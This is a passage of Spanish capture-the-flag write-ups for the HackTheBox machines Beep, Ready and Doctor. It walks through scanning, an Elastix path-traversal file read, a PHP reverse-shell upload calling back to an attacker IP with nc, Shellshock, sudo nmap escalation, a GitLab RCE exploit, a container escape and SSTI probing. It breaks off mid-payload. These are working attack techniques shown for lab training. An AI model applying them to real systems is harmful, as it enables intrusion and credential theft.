\subsubsection*{Nmap}\label{nmap-34}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.7}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.7 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p22,25,80,110,111,143,443,878,993,995,3306,4190,4445,4559,5038,10000, 10.10.10.7 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
22 & ssh & Conneccion directa & usuario y contraseña\tabularnewline
25 & ssh & Conneccion directa & usuario y contraseña\tabularnewline
80 & http & Web, Fuzzing &\tabularnewline
110 & pop3 & &\tabularnewline
111 & rpcbind & &\tabularnewline
143 & imap & &\tabularnewline
443 & https & Web, Fuzzing &\tabularnewline
878 & rpc & &\tabularnewline
993 & ssl/imap & &\tabularnewline
995 & pop3 & &\tabularnewline
3306 & mysql & &\tabularnewline
4190 & sieve cyrus & &\tabularnewline
4445 & upnotifyp & &\tabularnewline
4559 & HylaFAX & &\tabularnewline
5038 & asterisk & &\tabularnewline
10000 & http miniserv & &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-la-web-19}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-19}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-27}{%
\subsubsection*{Whatweb}\label{whatweb-27}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.7}
\end{Highlighting}
\end{Shaded}

Es un Apache 2.2.3 sobre un CentOS y habla de redirection sobre el protocolo https.

\hypertarget{checkear-la-web-3}{%
\subsubsection*{Checkear la web}\label{checkear-la-web-3}}
\addcontentsline{toc}{subsubsection}{Checkear la web}

Cuando nos connectamos por el puerto 80, se ve la redirection al puerto 443 y entramos directo
en un panel de authentificacion \texttt{elastix}.

Si miramos el miniserv del puerto \textbf{10000} tambien vemos un panel de login.

En este caso buscamos por una vulnerabilidad associada a \texttt{elastix}

\hypertarget{vulnerability-assessment-21}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-21}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{elastix}{%
\subsection*{Elastix}\label{elastix}}
\addcontentsline{toc}{subsection}{Elastix}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ elastix}
\end{Highlighting}
\end{Shaded}

Aqui vemos una serie de exploits y un script escrito en perl nos llama la atencion, porque permite hacer un
Local File Inclusion.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ -x 37637}
\end{Highlighting}
\end{Shaded}

Vemos que el exploit pasa por una url que usa path traversal \texttt{/vtigercrm/graph.php?current\_language=../../../../../../../..//etc/amportal.conf\%00\&module=Accounts\&action}
En este caso el fichero \texttt{/etc/amportal.conf} lo miramos mas tarde y empezamos primero con enumerar informaciones de la maquina.

Le metemos en firefox la url siguiente: \texttt{https://10.10.10.7/vtigercrm/graph.php?current\_language=../../../../../../../..//etc/passwd\%00\&module=Accounts\&action}
y podemos ver el fichero.

Vemos que hay multiples usuarios con una \texttt{/bin/bash}

\begin{itemize}
\tightlist
\item
  fanis
\item
  spamfilter
\item
  asterisk
\item
  cyrus
\item
  mysql
\item
  root
\end{itemize}

Usamos el LFI para enumerar la maquina

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{https}\NormalTok{://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/net/fib_trie%00}\KeywordTok{&}\VariableTok{module=}\NormalTok{Accounts}\KeywordTok{&}\ExtensionTok{action}
\ExtensionTok{https}\NormalTok{://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//proc/net/tcp%00}\KeywordTok{&}\VariableTok{module=}\NormalTok{Accounts}\KeywordTok{&}\ExtensionTok{action}
\end{Highlighting}
\end{Shaded}

El fib\_trie no nos muestra nada pero el tcp nos muestra los puertos internos que estan abiertos. Lo copiamos y lo pegamos en un fichero.
Como los puertos estan representado de forma hexadecimal, tenemos que tratar la data.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cat}\NormalTok{ data.txt }\KeywordTok{|} \FunctionTok{tr} \StringTok{':'} \StringTok{' '} \KeywordTok{|} \FunctionTok{awk} \StringTok{'\{print $3\}'} \KeywordTok{|} \FunctionTok{sort}\NormalTok{ -u}

\ExtensionTok{python3}
\OperatorTok{>>>} \ExtensionTok{0x0016}
\ExtensionTok{22}
\OperatorTok{>>>} \ExtensionTok{0x0019}
\ExtensionTok{25}
\OperatorTok{>>>} \ExtensionTok{0x0050}
\ExtensionTok{80}
\ExtensionTok{...}
\end{Highlighting}
\end{Shaded}

En el caso de un LFI ficheros interessantes podrian tambien ser \texttt{/proc/shed\_debug} y \texttt{/proc/shedstat}. En este caso no sirbe pero esta
bien tenerlo en cuenta.

Si miramos el fichero del exploit \texttt{https://10.10.10.7/vtigercrm/graph.php?current\_language=../../../../../../../..///etc/amportal.conf\%00\&module=Accounts\&action}
Vemos un fichero de configuracion con credenciales para una base de datos.

Si vamos por el panel de login y probamos usuarios, nos podemos connectar como el usuario admin.

Como tenemos contraseñas, intentamos connectarnos con el usuario admin pero no va.
Intentamos como el usuario root y la misma contraseña y entramos en el panel de configuracion de \textbf{webmin}.

\begin{quote}
{[} ! {]} NOTAS: Tito S4vitar nos avanza que se puede ganar accesso al systema desde el dashboard de elastix y tambien del webmin pero aqui tiraremos de otras vias.
\end{quote}

\hypertarget{vuln-exploit-gaining-access-21}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-21}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{ganando-accesso-desde-el-vtiger}{%
\subsection*{Ganando accesso desde el vtiger}\label{ganando-accesso-desde-el-vtiger}}
\addcontentsline{toc}{subsection}{Ganando accesso desde el vtiger}

Si analyzamos la url \texttt{https://10.10.10.7/vtigercrm/graph.php?current\_language=../../../../../../../..//etc/net/fib\_trie\%00\&module=Accounts\&action}, vemos
una parte que seria \texttt{https://10.10.10.7/vtigercrm}. Si vamos en esta url hay otro panel de session.

Copiando una vez mas las credenciales del usuario admin, podemos entrar en el dashboard de \textbf{vtiger CRM}.

Aqui la idea para ganar accesso al systema, viene de una vulnerabilidad que pasa por cambiar el logo de la compania con un fichero de doble extension.

Si vamos a \texttt{Settings\ \textgreater{}\ Settings\ \textgreater{}\ Company\ Details\ \textgreater{}\ edit}, aqui vemos que podemos cargar un fichero \texttt{.jpg} para cambiar el logo de la empresa.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Creamos un fichero con doble extension s4vishell.php.jpg

\begin{Shaded}
\begin{Highlighting}[]
\KeywordTok{<?php}
    \FunctionTok{system}\OtherTok{(}\StringTok{"rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.15 443 >/tmp/f"}\OtherTok{);}
\KeywordTok{?>}
\end{Highlighting}
\end{Shaded}
\item
  Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Uploadeamos el fichero a la web y cuando le damos a save ya hemos ganado accesso al systema.
\end{enumerate}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{asterisk}
\end{Highlighting}
\end{Shaded}

\hypertarget{tratamiento-de-la-tty-21}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-21}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

\hypertarget{privilege-escalation-19}{%
\section*{Privilege Escalation}\label{privilege-escalation-19}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-28}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-28}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{sudo}\NormalTok{ -l}
\end{Highlighting}
\end{Shaded}

Aqui vemos que tenemos derechos de ejecutar como el usuario root muchos binarios si proporcionar contraseña. Entre ellos

\begin{itemize}
\tightlist
\item
  /bin/chown
\item
  /bin/chmod
\item
  /sbin/service
\item
  /usr/bin/nmap
\end{itemize}

Aqui tiramos por el binario de nmap

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ --version}
\CommentTok{#Output}
\ExtensionTok{4.11}

\FunctionTok{sudo}\NormalTok{ nmap --interactive}
\NormalTok{!}\FunctionTok{sh}
\FunctionTok{whoami}
\CommentTok{#Output }
\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}

Ya estamos root y podemos leer las flags.

\hypertarget{otra-forma-de-rootear-la-maquina}{%
\subsection*{Otra forma de rootear la maquina}\label{otra-forma-de-rootear-la-maquina}}
\addcontentsline{toc}{subsection}{Otra forma de rootear la maquina}

Tambien podriamos rootear la maquina mediante un shellshock attack.

Si vamos a la url de login del puerto 10000 \texttt{https://10.10.10.7:10000/session\_login.cgi}, vemos que el fichero es un fichero con extension \texttt{.cgi}.
Un shellshock attack pasa por burlar el user-agent de la peticion. Para esto utilizamos Burpsuite.

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Una vez interceptada la peticion a la url de login.cgi, cambiamos la cabezera del User-Agent de la siguiente forma:

  \begin{figure}
   \includegraphics[width=0.9\linewidth]{images/Beep-shellshock-reverse-shell} \caption{Beep shellshock}\label{fig:unnamed-chunk-76}
   \end{figure}
\item
  Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  En Burpsuite le damos a Forward
\end{enumerate}

Y ganamos accesso al systema como el usuario root ;)

\hypertarget{ready}{%
\chapter*{Ready}\label{ready}}
\addcontentsline{toc}{chapter}{Ready}

\hypertarget{introduccion-35}{%
\section*{Introduccion}\label{introduccion-35}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia se llama Ready.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=DRSMsAKuXX0}{\includegraphics{https://img.youtube.com/vi/DRSMsAKuXX0/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-35}{%
\section*{Enumeracion}\label{enumeracion-35}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-35}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-35}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-35}{%
\subsubsection*{Ping}\label{ping-35}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.220}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina Linux

\hypertarget{nmap-35}{%
\subsubsection*{Nmap}\label{nmap-35}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.220}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.220 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p22,5080 10.10.10.220 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
22 & ssh & Conneccion directa & usuario y contraseña\tabularnewline
5080 & http & Web, Fuzzing &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-la-web-20}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-20}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-28}{%
\subsubsection*{Whatweb}\label{whatweb-28}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.220}
\end{Highlighting}
\end{Shaded}

Es un nginx con gitlab y nos reporta un redirect al \url{http://10.10.10.220/users/sign_in}

\hypertarget{checkear-la-web-4}{%
\subsubsection*{Checkear la web}\label{checkear-la-web-4}}
\addcontentsline{toc}{subsubsection}{Checkear la web}

Si entramos en la url \texttt{http://10.10.10.220:5080} nos redirige automaticamente a la pagina de Sign in de gitlab Community edition.
Siendo un gitlab podemos ver el \texttt{robots.txt}.

Vemos routas que pueden ser interesantes como

\begin{itemize}
\tightlist
\item
  /api
\end{itemize}

En el caso de la routa \texttt{/api} si tiramos de esta routa con firefox, vemos que necessitamos logearnos para continuar. Pero en ciertos casos,
hay possibilidades de poder, de forma no authenticada, obtener informaciones relevantes.

Si buscamos en google por \texttt{gitlab\ api}, vemos de que manera podemos utilizar la api para recoger informaciones.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://10.10.10.220:5080/api/v4/version"}
\end{Highlighting}
\end{Shaded}

Aqui vemos que necessitamos un token y para esto tenemos que crearnos un usuario. Lo hacemos desde la web. Una vez hecho nos podemos loggear
y desde la interface de gitlab, si vamos a Settings, nos podemos crear un token. Lo copiamos y lo añadimos a un header con curl.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{curl}\NormalTok{ -s -X GET }\StringTok{"http://10.10.10.220:5080/api/v4/version"}\NormalTok{ -H }\StringTok{"PRIVATE-TOKEN: 514gTTxhx3qpsBbJbfz9"} \KeywordTok{|} \ExtensionTok{jq}
\end{Highlighting}
\end{Shaded}

Aqui vemos que la version de gitlab es la 11.4.7

\hypertarget{vulnerability-assessment-22}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-22}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{gitlab}{%
\subsection*{Gitlab}\label{gitlab}}
\addcontentsline{toc}{subsection}{Gitlab}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ gitlab 11.4.7}
\end{Highlighting}
\end{Shaded}

Aqui vemos exploits que nos permite hacer Remote Code Execution.

\hypertarget{vuln-exploit-gaining-access-22}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-22}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{ganando-accesso-con-gitlab}{%
\subsection*{Ganando accesso con Gitlab}\label{ganando-accesso-con-gitlab}}
\addcontentsline{toc}{subsection}{Ganando accesso con Gitlab}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{searchsploit}\NormalTok{ -m 49257}
\FunctionTok{mv}\NormalTok{ 49257.py gitlab_rce.py}
\ExtensionTok{vi}\NormalTok{ gitlab_rce.py}
\end{Highlighting}
\end{Shaded}

Mirando el codigo, vemos que este exploit nos permiteria entablar una reverse shell. Modificamos los datos

\begin{itemize}
\tightlist
\item
  url de la maquina victima
\item
  url de la maquina de atacante
\item
  puerto de escucha
\item
  usuario gitlab
\item
  authenticity\_token
\item
  cookie de session.
\end{itemize}

El valor del authenticity token se puede encontrar en el codigo fuente de la pagina de gitlab.
El valor del cookie de session se puede ver en la pagina de gitlab dandole a \texttt{Ctrl+Shift+c\ \textgreater{}\ Almacenamiento} y podemos ver el \texttt{\_gitlab\_session}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha por el puerto 443

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{nc}\NormalTok{ -nlvp 443}
\end{Highlighting}
\end{Shaded}
\item
  Lanzamos el script con el commando \texttt{python3\ gitlab\_rce.py}
\end{enumerate}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{whoami}
\CommentTok{#Output}
\FunctionTok{git}
\end{Highlighting}
\end{Shaded}

\hypertarget{tratamiento-de-la-tty-22}{%
\subsection*{Tratamiento de la TTY}\label{tratamiento-de-la-tty-22}}
\addcontentsline{toc}{subsection}{Tratamiento de la TTY}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{script}\NormalTok{ /dev/null -c bash}
\NormalTok{^}\ExtensionTok{Z}
\FunctionTok{stty}\NormalTok{ raw -echo}\KeywordTok{;} \BuiltInTok{fg}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ reset}
\ExtensionTok{-}\OperatorTok{>}\NormalTok{ xterm}
\BuiltInTok{export} \VariableTok{TERM=}\NormalTok{xterm}
\BuiltInTok{export} \VariableTok{SHELL=}\NormalTok{bash}

\FunctionTok{stty}\NormalTok{ -a}

\FunctionTok{stty}\NormalTok{ rows }\OperatorTok{<}\NormalTok{rownb}\OperatorTok{>}\NormalTok{ columns }\OperatorTok{<}\NormalTok{colnb}\OperatorTok{>}
\end{Highlighting}
\end{Shaded}

Podemos ir al directorio \texttt{/home/dude} y visualizar la flag

\hypertarget{privilege-escalation-20}{%
\section*{Privilege Escalation}\label{privilege-escalation-20}}
\addcontentsline{toc}{section}{Privilege Escalation}

\hypertarget{rootear-la-maquina-29}{%
\subsection*{Rootear la maquina}\label{rootear-la-maquina-29}}
\addcontentsline{toc}{subsection}{Rootear la maquina}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /root}
\FunctionTok{id}
\FunctionTok{sudo}\NormalTok{ -l}
\BuiltInTok{echo} \VariableTok{$PATH}
\BuiltInTok{cd}\NormalTok{ /}
\FunctionTok{find}\NormalTok{ \textbackslash{}-perm -4000 }\OperatorTok{2>}\NormalTok{/dev/null}
\FunctionTok{hostname}\NormalTok{ -I}
\FunctionTok{hostname}
\end{Highlighting}
\end{Shaded}

Aqui podemos ver que el comando \texttt{hostname\ -I} nos da una ip que no es la ip de la maquina victima. Estamos en un contenedor

\hypertarget{escapar-del-contenedor}{%
\subsubsection*{Escapar del contenedor}\label{escapar-del-contenedor}}
\addcontentsline{toc}{subsubsection}{Escapar del contenedor}

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /}
\FunctionTok{ls}\NormalTok{ -la}
\BuiltInTok{cd}\NormalTok{ /opt}
\FunctionTok{ls}\NormalTok{ -l}
\end{Highlighting}
\end{Shaded}

Vemos un fichero \texttt{/root\_pass} en la raiz, y en el directorio opt vemos un directorio \texttt{backup} y \texttt{gitlab}.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{cat}\NormalTok{ /root_pass}
\CommentTok{#Output}
\ExtensionTok{YG65407Bjqvv9A0a8Tm_7w}

\FunctionTok{su}\NormalTok{ root}
\ExtensionTok{Password}\NormalTok{: YG65407Bjqvv9A0a8Tm_7w}

\FunctionTok{su}\NormalTok{ dude}
\ExtensionTok{Password}\NormalTok{: YG65407Bjqvv9A0a8Tm_7w}
\end{Highlighting}
\end{Shaded}

No es una contraseña.

\begin{Shaded}
\begin{Highlighting}[]
\BuiltInTok{cd}\NormalTok{ /opt}
\FunctionTok{ls} 
\BuiltInTok{cd}\NormalTok{ /backup}
\FunctionTok{ls}\NormalTok{ -l}

\FunctionTok{cat}\NormalTok{ docker-compose.yml}
\FunctionTok{cat}\NormalTok{ gitlab-secrets.json}
\FunctionTok{cat}\NormalTok{ gitlab-secrets.json }\KeywordTok{|} \FunctionTok{grep} \StringTok{"pass"}
\FunctionTok{cat}\NormalTok{ gitlab-secrets.json }\KeywordTok{|} \FunctionTok{grep} \StringTok{"user"}
\FunctionTok{cat}\NormalTok{ gitlab.rb}
\FunctionTok{cat}\NormalTok{ gitlab.rb }\KeywordTok{|} \FunctionTok{grep} \StringTok{"pass"}
\end{Highlighting}
\end{Shaded}

Hay mucha informacion en estos ficheros. El gitlab.rb contiene un password para el servicio smtp.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{su}\NormalTok{ root}
\ExtensionTok{Password}\NormalTok{: wW59U!ZKMbG9+*#h}
\FunctionTok{whoami}
\CommentTok{#Output}
\ExtensionTok{root}
\end{Highlighting}
\end{Shaded}

Emos podido passar al usuario root pero del contenedor. Aqui algo que todavia suena turbio es este fichero \texttt{root\_pass}.
Buscamos en los ficheros la coincidencias de este fichero

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{grep}\NormalTok{ -r -i }\StringTok{"root_pass"} \OperatorTok{2>}\NormalTok{/dev/null}
\end{Highlighting}
\end{Shaded}

Aqui vemos un \texttt{/dev/sda2} que parece montado sobre un \textbf{root\_pass}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{df}\NormalTok{ -h}
\ExtensionTok{fdisk}\NormalTok{ -l}
\end{Highlighting}
\end{Shaded}

Aqui vemos que en \texttt{/dev/sda2} hay un linux filesystem de 18G que se monta directamente con \texttt{/root\_pass}. Vamos a intentar montarlo.

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{mkdir}\NormalTok{ /mnt/mounted}
\FunctionTok{mount}\NormalTok{ /dev/sda2 /mnt/mounted}
\FunctionTok{ls}\NormalTok{ -l}
\BuiltInTok{cd}\NormalTok{ /root}
\FunctionTok{cat}\NormalTok{ root.txt}
\end{Highlighting}
\end{Shaded}

Ademas podemos connectarnos como root directamente a la maquina victima con ssh porque tenemos accesso a la id\_rsa del usuario root de la maquina
victima.

\hypertarget{doctor}{%
\chapter*{Doctor}\label{doctor}}
\addcontentsline{toc}{chapter}{Doctor}

\hypertarget{introduccion-36}{%
\section*{Introduccion}\label{introduccion-36}}
\addcontentsline{toc}{section}{Introduccion}

La maquina del dia se llama Doctor.

El replay del live se puede ver aqui

\href{https://www.youtube.com/watch?v=kaHpsn1HLp4}{\includegraphics{https://img.youtube.com/vi/kaHpsn1HLp4/0.jpg}}

No olvideis dejar un like al video y un commentario\ldots{}

\hypertarget{enumeracion-36}{%
\section*{Enumeracion}\label{enumeracion-36}}
\addcontentsline{toc}{section}{Enumeracion}

\hypertarget{reconocimiento-de-maquina-puertos-abiertos-y-servicios-36}{%
\subsection*{Reconocimiento de maquina, puertos abiertos y servicios}\label{reconocimiento-de-maquina-puertos-abiertos-y-servicios-36}}
\addcontentsline{toc}{subsection}{Reconocimiento de maquina, puertos abiertos y servicios}

\hypertarget{ping-36}{%
\subsubsection*{Ping}\label{ping-36}}
\addcontentsline{toc}{subsubsection}{Ping}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{ping}\NormalTok{ -c 1 10.10.10.209}
\end{Highlighting}
\end{Shaded}

ttl: 63 -\textgreater{} maquina Linux

\hypertarget{nmap-36}{%
\subsubsection*{Nmap}\label{nmap-36}}
\addcontentsline{toc}{subsubsection}{Nmap}

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -p- --open -T5 -v -n 10.10.10.209}
\end{Highlighting}
\end{Shaded}

Va lento

\begin{Shaded}
\begin{Highlighting}[]
\FunctionTok{nmap}\NormalTok{ -sS -p- --open --min-rate 5000 -vvv -n -Pn 10.10.10.209 -oG allPorts }
\ExtensionTok{extractPorts}\NormalTok{ allPorts}
\FunctionTok{nmap}\NormalTok{ -sC -sV -p22,80,8089 10.10.10.209 -oN targeted}
\end{Highlighting}
\end{Shaded}

\begin{longtable}[]{@{}llll@{}}
\toprule
Puerto & Servicio & Que se nos occure? & Que falta?\tabularnewline
\midrule
\endhead
22 & ssh & Conneccion directa & usuario y contraseña\tabularnewline
80 & http & Web, Fuzzing &\tabularnewline
8089 & https splunkd & Web, Fuzzing &\tabularnewline
\bottomrule
\end{longtable}

\hypertarget{analyzando-la-web-21}{%
\subsection*{Analyzando la web}\label{analyzando-la-web-21}}
\addcontentsline{toc}{subsection}{Analyzando la web}

\hypertarget{whatweb-29}{%
\subsubsection*{Whatweb}\label{whatweb-29}}
\addcontentsline{toc}{subsubsection}{Whatweb}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{whatweb}\NormalTok{ http://10.10.10.209}
\end{Highlighting}
\end{Shaded}

Es un Apache 2.4.41 en un Ubuntu. Vemos un email \texttt{info@doctors.htb} Podria ser un usuario y un dominio. Añadimos el dominio al \texttt{/etc/hosts}

\hypertarget{checkear-la-web-5}{%
\subsubsection*{Checkear la web}\label{checkear-la-web-5}}
\addcontentsline{toc}{subsubsection}{Checkear la web}

Si entramos en la url \texttt{http://10.10.10.209}, vemos una pagina de un cabinete de doctor. Navigamos un poco en la web pero no hay nada interesante.
Si entramos en la web por el dominio \texttt{http://doctors.htb} vemos una nueva pagina. Se esta aplicando virtual hosting. Esta pagina es un login.
El wappalizer nos dice que es un Flask en python.

Aqui de seguida pensamos en un \textbf{Template Injection}.

De primeras creamos un nuevo usuario en el panel de registro.
Vemos que nuestra cuenta a sido creada con un limite de tiempo de 20 minutos. Nos loggeamos y vemos un boton con un numero 1.
Si pinchamos, vemos en la url \texttt{http://doctors.htb/home?page=1}. Miramos si se puede aplicar un LFI

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{http}\NormalTok{://doctors.htb/home/page=/etc/passwd}
\ExtensionTok{http}\NormalTok{://doctors.htb/home/page=../../../../../../../../etc/passwd}
\ExtensionTok{http}\NormalTok{://doctors.htb/home/page=../../../../../../../../etc/passwd%00}
\ExtensionTok{http}\NormalTok{://doctors.htb/home/page=../../../../../../../../etc/passwd?}
\end{Highlighting}
\end{Shaded}

Aqui no vemos nada.

Hay un link en la pagina para redactar un nuevo mensaje.

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{Title}\NormalTok{: EEEEEEEEE}
\ExtensionTok{Content}\NormalTok{: Hola}
\end{Highlighting}
\end{Shaded}

Aqui vemos que el mensaje esta visible en la pagina.

\begin{quote}
{[} ! {]} NOTAS: Tito nos habla de probar un RFI (Remote File Inclusion) que seria algo que probar pero nos adelanta que no funcciona en este caso.
\end{quote}

Aqui miramos de Injectar etiquetas HTML y XSS pero no funcciona.

\hypertarget{vulnerability-assessment-23}{%
\section*{Vulnerability Assessment}\label{vulnerability-assessment-23}}
\addcontentsline{toc}{section}{Vulnerability Assessment}

\hypertarget{server-side-template-injection}{%
\subsection*{Server Side Template Injection}\label{server-side-template-injection}}
\addcontentsline{toc}{subsection}{Server Side Template Injection}

\begin{Shaded}
\begin{Highlighting}[]
\ExtensionTok{Title}\NormalTok{: }\DataTypeTok{\{\{9*9\}\}}
\ExtensionTok{Content}\NormalTok{: }\DataTypeTok{\{\{2*3\}\}}
\end{Highlighting}
\end{Shaded}

Vemos que en esta parte no nos lo interpreta. Si miramos el codigo fuente, vemos que hay un link que esta en la url \texttt{http://doctors.htb/archive} y que esta
en beta testing.

Si vamos a la url en question, hay una pagina blanca pero si otra vez, miramos el codigo fuente, en este caso de la pagina \texttt{/archive}, podemos ver que hay
un numero \textbf{81}. Quiere decir que en el directorio \textbf{archive} esta interpretando el \textbf{SSTI} de los mensajes.

El caso del SSTI nos permite injectar comandos a nivel de systema usando el systema de templating. Si vamos a la carpeta \textbf{Server Side Template Injection} de
la pagina de \href{https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server\%20Side\%20Template\%20Injection}{payloadallthethings} podemos copiar la Injeccion
de Jinja2 \textbf{Exploit the SSTI by calling Popen without guessing the offset}

\hypertarget{vuln-exploit-gaining-access-23}{%
\section*{Vuln exploit \& Gaining Access}\label{vuln-exploit-gaining-access-23}}
\addcontentsline{toc}{section}{Vuln exploit \& Gaining Access}

\hypertarget{ganando-accesso-con-ssti}{%
\subsection*{Ganando accesso con SSTI}\label{ganando-accesso-con-ssti}}
\addcontentsline{toc}{subsection}{Ganando accesso con SSTI}

\begin{enumerate}
\def\labelenumi{\arabic{enumi}.}
\item
  Nos ponemos en escucha por el puerto 443
\item
  Creamos un nuevo mensaje con el payload

\begin{Shaded}
\begin{Highlighting}[]
